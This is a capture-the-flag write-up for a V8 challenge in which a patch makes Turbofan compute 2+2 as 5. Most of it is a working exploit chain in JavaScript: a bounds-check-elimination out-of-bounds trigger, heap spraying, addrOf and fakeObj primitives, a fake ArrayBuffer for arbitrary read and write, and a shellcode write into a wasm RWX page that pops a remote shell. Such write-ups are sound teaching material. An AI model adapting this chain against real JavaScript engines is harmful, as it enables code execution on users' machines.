

# literally-1985

### Challenge:
##### Same build instructions and dist.tar.gz as literally-1984, but the patch is slightly different.
##### Files: [d8](d8), [Dockerfile](Dockerfile), [args.gn](args.gn), [literally1985.patch](literally1985.patch), [dist.tar.gz](dist.tar.gz)

### Overview:
This was a revenge challenge to literally-1984, the only changes were removing easy 🧀 to read the flag using v8 builtins. 

The relevant part of the patch is this:

```diff
diff --git a/src/compiler/machine-operator-reducer.cc b/src/compiler/machine-operator-reducer.cc
index 2da3715a58f..e6896555188 100644
--- a/src/compiler/machine-operator-reducer.cc
+++ b/src/compiler/machine-operator-reducer.cc
@@ -1101,6 +1101,11 @@ Reduction MachineOperatorReducer::ReduceInt32Add(Node* node) {
   DCHECK_EQ(IrOpcode::kInt32Add, node->opcode());
   Int32BinopMatcher m(node);
   if (m.right().Is(0)) return Replace(m.left().node());  // x + 0 => x
+
+  if (m.left().Is(2) && m.right().Is(2)) {
+    return ReplaceInt32(5);
+  }
+
   if (m.IsFoldable()) {  // K + K => K  (K stands for arbitrary constants)
     return ReplaceInt32(base::AddWithWraparound(m.left().ResolvedValue(),
                                                 m.right().ResolvedValue()));
```

Basically when the v8 JIT compiler (Turbofan) reduces an add operation which is adding 2 and 2 together it will store the result as 5.

Normally this wouldn't be a security issue, however Turbofan's typer still thinks of that value as 4 and it will use that value to perform an optmization known as bounds-checking elimination, where as the name implies, it elminates bounds checking operations on array accesses if it's sure the index is within the size of the array.

Since the typer's knowledge of this value and the actual value differ, we can abuse this fact to gain oob array access, which is a pretty powerful building block to gain other primitives.

#### Example:

```js
function f() {
    let c;

    //Turbofan will OSR opt this loop, not the whole func cuz of v8_optimized_debug = false
    for (let i = 0; i < 20000; i++) {
        let a = 1, b = 1;
        a += b;
        b ++;
        c = a + b;
    }

    let victim = [1.1, 2.2, 3.3, 4.4, 5.5];
    
    //Turbofan thinks idx = 4 while its actually 5
    return [c, victim[c]];
}

let ret = f();
console.log(ret[0], ret[1]);

for (let a=0; a<20000; a++) {
    ret = f();
}
console.log(ret[0], ret[1]);
```

```bash
$ ./d8 test.js 
4 5.5
5 8.487983846e-314
```

One small issue we need to solve is the presence of the flag `v8_optimized_debug = false` in the v8 build, which disables Turbofan's optimizations for entire functions in debug builds (such as this one).

We can get around this by creating an hot loop inside the function `f()`, which will get optmized by Turbofan and trigger the vuln.

### Exploitation:

```js
function f() {
    let c;

    //Turbofan will OSR opt this loop, not the whole func cuz of v8_optimized_debug = false
    for (let i = 0; i < 20000; i++) {
        let a = 1, b = 1;
        a += b;
        b ++;
        c = a + b;
    }

    let victim = [1.1, 2.2, 3.3, 4.4, 5.5, 6.6, 7.7, 8.8, 9.9];
    let obj = [{}]; 
    
    //Turbofan thinks idx = 4*2 while its actually 5*2 
    //We're modifying the elements array of victim with huge1's elements with an arbitrary large size
    victim[c*2] = itof(((FAKE_JSARR_SZ * 2n) << 32n) | BigInt(0x500011));

    return [0, victim, obj];
}
```

This is the function i used to get array oob, basically we're modifying the size of the array and its elements pointer because for some reason i could not read and write oob in a single function call (or maybe i was messing something up, i was sleep deprived :P)

One issue we need to solve by using this method is having a valid address for the elements pointer, i solved this by heap spraying huge arrays.

```js
//We create big arrays so v8 needs to extend the heap and as a result the address will be fixed
let huge1 = new Array(0xc9000/8)
huge1.fill(1.1);
let huge2 = new Array(0xc9000/4)
huge2.fill({});
let huge3 = new Array(0xc9000/8)
huge3.fill(1.1);
```

As the comment implies those allocations will force v8 to allocate new heap blocks, which will have fixed addresses, in particular huge1's elements will be `0x500011` which we use in `f()`.

Now that we have a more general oob we can use `huge1` to read and modify elements in `huge2`, allowing us to craft `AddrOf/FakeObj` primitives:

```js
//Will get optimized into maglev to bypass oob checks on array access
function set_oob(oob, idx, what) {
    oob[idx] = what;
}

function get_oob(oob, idx) {
    return oob[idx];
}

for (let a=0; a<20000; a++) {
    get_oob(holey, 0);
    set_oob(holey, 0, 1.1);
    oob = f()[1];
}

function GetAddressOf(x) {
    huge2[0] = x;
    return ((ftoi(get_oob(oob, 163840))) - 1n) & 0xffffffffn;
}

function GetFakeObject(x) { 
    set_oob(oob, 163840, itof(x));
    return huge2[0];   
}
```

We use the maglev optimized functions `get_oob/set_oob` to bypass bound checks performed in the v8 bytecode.

Once we have these primitives we can read a `Float64Array` to leak the heap cage and build a 64bit arb r/w by faking an `ArrayBuffer`, which we use to gain RCE by modifying a RWX region of a wasm function.

```js
let leak_offset = Number((GetAddressOf(heap_leak) - 0x500010n)/8n);
console.log("leak offset: "+leak_offset);

//Doing it normally fucks with the heap feng shui for some reason lmao
let leak = parseInt((ftoi(get_oob(oob, leak_offset + 6))).toString(16).substring(10), 16); 
console.log(ftoi(get_oob(oob, leak_offset + 6)).toString(16));
console.log("heap cage: 0x"+leak.toString(16));

let fake_arraybuf = [
    itof((EMPTY_PROPERTIES_ADDR << 32n) | BigInt(MAP_JSARR_HOLEY_ELEMENTS_ADDR)),
    itof(EMPTY_PROPERTIES_ADDR),
    itof(0x100000000011),
    itof(0x100000000000),
    itof(0xdeadbeef), //Low bits of backing store
    itof(0xdeadbeef), //High bits of backing store
    itof(0x200000011),
    itof(0xc00000565),
];

let FAKE_ARRAYBUF = GetAddressOf(fake_arraybuf)+1n;
let FAKE_ARRAYBUF_ELEMENTS = FAKE_ARRAYBUF + 124n + 0x40n;
console.log("FAKE: 0x"+(FAKE_ARRAYBUF_ELEMENTS).toString(16));
let fake = GetFakeObject(FAKE_ARRAYBUF_ELEMENTS);

//Set high bits to heap cage
fake_arraybuf[5] = itof((0x180000n << 32n) | BigInt(leak));

const expl_wasm_code = new Uint8Array([...]);
let expl_wasm_mod = new WebAssembly.Module(expl_wasm_code);
let expl_wasm_instance = new WebAssembly.Instance(expl_wasm_mod);

let wasm_instance_addr = GetAddressOf(expl_wasm_instance) + 1n;
console.log("wasm instance addr: 0x"+wasm_instance_addr.toString(16));

fake_arraybuf[4] = itof((wasm_instance_addr+11n)<<32n);
var read = new Float64Array(fake);
let wasm_data_addr = ftoi(read[0]) & 0xffffffffn;

fake_arraybuf[4] = itof(((wasm_data_addr+0x27n)<<32n));
var read = new Float64Array(fake);
rwx = ftoi(read[0]);
console.log("rwx: 0x"+rwx.toString(16));

fake_arraybuf[4] = itof((rwx&0xffffffffn)<<32n);
fake_arraybuf[5] = itof((0x180000n << 32n) | BigInt(rwx>>32n));
var write = new Int8Array(fake);

console.log("Writing shellcode");
const SHELLCODE = [...]
for(var i = 0; i < SHELLCODE.length; i++) write[i] = SHELLCODE[i];

console.log("Igniting");
expl_wasm_instance.exports.func();
```

We can then run the exploit on the remote and pop our shell:

```bash
$ python3 x.py 
[+] Opening connection to challs.umdctf.io on port 31085: Done
[*] Switching to interactive mode
Enter file contents, ended with the string EOF:
leak offset: 131404
600b9100000894
heap cage: 0x894
FAKE: 0x49f6f5
wasm instance addr: 0x199b45
rwx: 0x3976a8c000
Writing shellcode
Igniting
$ cat flag*
UMDCTF{next_time_i_should_probably_disable_the_d8_builtins_lesson_learned}
```

Full exploit: [x.js](x.js)

Flag: ```UMDCTF{next_time_i_should_probably_disable_the_d8_builtins_lesson_learned}```
